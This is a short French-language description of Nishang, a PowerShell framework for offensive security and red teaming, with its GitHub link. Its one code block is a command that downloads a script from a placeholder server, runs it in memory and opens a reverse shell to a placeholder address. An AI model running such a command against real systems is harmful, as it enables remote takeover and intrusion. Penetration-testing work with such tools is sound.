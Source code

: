 ### Nishang est un framework et un ensemble de scripts et de charges utiles permettant d'utiliser PowerShell pour la sécurité offensive, les tests d'intrusion et le red teaming. Nishang est utile à toutes les phases des tests d'intrusion.
```
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```

https://github.com/samratashok/nishang